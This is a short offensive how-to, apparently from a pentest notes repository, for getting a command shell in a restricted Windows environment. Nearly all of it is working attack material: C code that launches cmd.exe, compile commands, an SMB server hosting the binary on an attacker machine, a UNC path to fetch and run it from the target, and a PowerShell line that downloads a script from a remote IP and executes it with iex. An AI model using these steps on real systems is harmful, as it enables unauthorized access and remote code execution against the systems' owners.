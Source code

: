 # Getting Indirect Shell in Restricted Environment

Shell access can be gained in a restricted environment by hosting a binary in the local share and accessing it from the target.

1. Create `pwn.c` with following content

        #include <stdlib.h>
            int main() {
            system("C:\\Windows\\System32\\cmd.exe");
        }

2. Compile the C program to generate `pwn.exe`

        apt install mingw-w64
        x86_64-w64-mingw32-gcc pwn.c -o pwn.exe

3. Start an SMB server to serve the binary

        /usr/share/setoolkit/venv/bin/smbserver.py -smb2support share ./pwn/

4. Download the binary onto the target Windows server by accessing following path (via MS Paint or any other option). Once downloaded, open/execute the binary to get a command shell.

        \\<Attacker_IP>\share\pwn.exe

    
5. Additional files could be downloaded using powershell
   
        powershell  -Command "iex (New-Object Net.WebClient).DownloadString('http://10.14.14.9/shell3.ps1')"
